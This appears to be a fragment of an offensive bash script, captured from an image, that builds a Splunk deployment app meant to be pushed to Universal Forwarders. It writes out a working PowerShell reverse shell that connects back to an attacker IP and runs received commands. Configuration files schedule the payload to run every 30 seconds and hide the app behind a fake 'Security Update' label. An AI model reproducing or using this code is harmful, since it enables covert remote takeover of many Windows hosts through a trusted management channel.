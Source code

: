 ```bash
    # Windows PowerShell version for Windows forwarders
    cat > deployment_apps/$app_name/bin/update.ps1 << EOF
try {
    \$c = New-Object System.Net.Sockets.TCPClient('$attacker_ip',$attacker_port)
    \$s = \$c.GetStream()
    [byte[]]\$b = 0..65535|%{0}
    while((\$i = \$s.Read(\$b, 0, \$b.Length)) -ne 0){
        \$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$b,0, \$i)
        \$sb = (iex \$d 2>&1 | Out-String )
        \$sb2 = \$sb + 'PS ' + (pwd).Path + '> '
        \$sbt = ([text.encoding]::ASCII).GetBytes(\$sb2)
        \$s.Write(\$sbt,0,\$sbt.Length)
        \$s.Flush()
    }
    \$c.Close()
} catch {}
EOF
    
    # Create inputs.conf for forwarder execution
    cat > deployment_apps/$app_name/default/inputs.conf << 'EOF'
[script://./bin/update.py]
disabled = 0
interval = 30
sourcetype = security_update

[script://.\bin\update.ps1]
disabled = 0
interval = 30
sourcetype = security_update
EOF
    
    # Create app.conf
    cat > deployment_apps/$app_name/default/app.conf << 'EOF'
[install]
state = enabled
is_configured = true

[ui]
is_visible = false
label = Security Update

[launcher]
author = Security Team
description = Critical security updates
version = 1.0.0
EOF
    
    chmod +x deployment_apps/$app_name/bin/*
    
    echo "[+] Deployment application created: deployment_apps/$app_name"
    echo "[+] Ready for deployment to Universal Forwarders"
}

# create_deployment_app
```
